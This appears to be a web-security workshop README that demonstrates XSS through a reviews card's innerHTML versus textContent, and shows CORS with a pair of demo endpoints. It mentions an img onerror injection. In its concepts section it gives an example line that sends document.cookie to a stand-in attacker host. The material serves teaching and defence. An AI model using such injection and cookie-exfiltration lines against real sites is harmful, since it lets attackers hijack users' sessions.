

# Demo 10 — Don't trust the user, don't trust the page

Every frontend has two leaky seams where strangers meet your app: the text a
user types into your inputs, and the JSON your code reads back from other
servers. Get either one wrong and someone else gets to run JavaScript in your
users' sessions. This demo is the smallest possible look at both — a Swiggy
reviews card that can be tricked into running an attacker's HTML, and a pair
of API endpoints that show you which responses the browser will actually let
your code read.

## Setup

**XSS half — use the iframe on the left.**

1. Make sure **☠️ UNSAFE — `innerHTML`** is selected (it's the default).
2. Type a normal review like `Great biryani!` and post it. It shows up in the
   feed. Looks completely ordinary.
3. Now post this as your "review":
   ```html
   
   ```
   An **alert box pops**. You did not write a button for that. The user's
   *input* just ran JavaScript.
4. Flip the toggle to **✅ SAFE — `textContent`** and post the same payload
   again. No alert — the literal characters show up in the feed as text.

**CORS half — use your browser's Console.** Open DevTools on **any tab that is
NOT this workshop site** — `https://example.com`, `https://news.ycombinator.com`,
a blank `about:blank`, whatever you have open. You need a different origin so
the browser actually enforces CORS. Paste:

```js
// Should ERROR — the server sent no Access-Control-Allow-Origin header.
fetch("https://teach-site.vercel.app/api/cors-demo/blocked")
  .then((r) => r.json())
  .then(console.log)
  .catch(console.error);

// Should WORK — the server set Access-Control-Allow-Origin: *.
fetch("https://teach-site.vercel.app/api/cors-demo/allowed")
  .then((r) => r.json())
  .then(console.log)
  .catch(console.error);
```

> If you're running the workshop site locally, swap the host for
> `http://localhost:3000`. Replace `teach-site.vercel.app` with whatever your
> tutor's site URL is if it differs.

The first fetch turns red in the Console: *"...blocked by CORS policy..."*.
The second one prints the JSON. Same server, same request — only difference
is one response header.

## Concepts

**1. Any user input that reaches `innerHTML` is a code-execution sink.** The
browser does not know your input box is "just for reviews." It only knows you
asked it to parse a string as HTML. If that string contains an `` with an
`onerror`, the browser dutifully runs the handler. In the real world, that
`alert` would be `fetch('https://attacker.example/?c=' + document.cookie)`.

**2. `textContent` is the safe default.** It tells the browser *"this is text,
draw it."* No parsing, no scripts, no surprises. React does this for you: when
you write `{userInput}` in JSX, React escapes by default — it's `textContent`
under the hood. The only way to opt back into the dangerous behaviour is to
explicitly call `dangerouslySetInnerHTML`, and the scary name is on purpose.

**3. CORS is enforced by the browser, not the network.** The request to the
cross-origin server *was sent*. The server *answered*. The bytes came back.
Then the browser looked at the response headers, didn't find an
`Access-Control-Allow-Origin` that matches your origin, and refused to hand
the response to your JavaScript. The network is fine. The browser is the
gatekeeper.

**4. "Same origin" is `scheme + host + port`.** `https://swiggy.com` and
`https://api.swiggy.com` are *different origins*. So is
`http://swiggy.com` vs `https://swiggy.com`. So is port 3000 vs 8000.

**5. CORS lives on the server's response.** The client doesn't configure it;
the server does, by sending an `Access-Control-Allow-Origin` header. That's
why both endpoints in this demo look identical — except for one header.

## Diagrams

A cross-origin fetch, step by step. Notice the browser is the one making the
final call about whether your JS gets to see the response:



The two render paths on the page — same input, different sink:

<svg viewBox="0 0 600 260" xmlns="http://www.w3.org/2000/svg" role="img" aria-label="Split brain: UNSAFE innerHTML path versus SAFE textContent path" style="font-family: ui-sans-serif, system-ui, sans-serif;">
  <rect x="0" y="0" width="600" height="260" fill="#fff3e6"/>
  <line x1="300" y1="20" x2="300" y2="240" stroke="#fc8019" stroke-width="2" stroke-dasharray="6 4"/>

  <text x="150" y="30" text-anchor="middle" font-size="14" font-weight="700" fill="#1c1c1c">UNSAFE · innerHTML</text>
  <text x="450" y="30" text-anchor="middle" font-size="14" font-weight="700" fill="#1c1c1c">SAFE · textContent</text>

  <g font-size="12" fill="#1c1c1c">
    <rect x="40" y="50" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="150" y="71" text-anchor="middle">User types &lt;img onerror=...&gt;</text>

    <rect x="40" y="104" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="150" y="125" text-anchor="middle">el.innerHTML = input</text>

    <rect x="40" y="158" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="150" y="179" text-anchor="middle">Browser parses as HTML</text>

    <rect x="40" y="212" width="220" height="34" rx="6" fill="#fc8019" stroke="#fc8019"/>
    <text x="150" y="233" text-anchor="middle" fill="#fff" font-weight="700">Attacker's JS runs</text>
  </g>

  <g font-size="12" fill="#1c1c1c">
    <rect x="340" y="50" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="450" y="71" text-anchor="middle">User types &lt;img onerror=...&gt;</text>

    <rect x="340" y="104" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="450" y="125" text-anchor="middle">el.textContent = input</text>

    <rect x="340" y="158" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="450" y="179" text-anchor="middle">Browser draws literal text</text>

    <rect x="340" y="212" width="220" height="34" rx="6" fill="#fff" stroke="#fc8019"/>
    <text x="450" y="233" text-anchor="middle" font-weight="700">Shows as harmless string</text>
  </g>

  <g stroke="#fc8019" stroke-width="1.5" fill="none">
    <path d="M150 84 L150 104"/><path d="M150 138 L150 158"/><path d="M150 192 L150 212"/>
    <path d="M450 84 L450 104"/><path d="M450 138 L450 158"/><path d="M450 192 L450 212"/>
  </g>
</svg>

## Takeaways

- **Never put untrusted text into `innerHTML`.** If you're building a string
  of HTML by hand, you're one stray user input away from XSS.
- **`textContent` (and React's `{userInput}`) is the default.** You should
  have to *try* to render markup, not try to escape it.
- **`dangerouslySetInnerHTML` is a code smell.** If a teammate adds it, ask:
  is this string really HTML, and where did every character of it come from?
- **CORS is a browser policy, not a network policy.** Curl, Postman, and your
  server-to-server fetches don't care about CORS — they were never the threat
  model. CORS protects *users* whose browsers carry their cookies everywhere.
- **CORS is configured on the response, by the server.** You cannot "fix
  CORS" from the client. If you need a cross-origin read, the other server
  has to send the header — or you proxy the call through your own backend.
- **Same-origin reads always work.** That's why a same-origin fetch from
  inside this workshop site to `/api/cors-demo/blocked` succeeds: there's no
  cross-origin check to fail.
- **Both attacks share a theme.** XSS is "don't trust what comes *in*"; CORS
  is "don't let pages read what they weren't invited to." The browser is
  trying very hard to protect your users from the page they happen to be on.
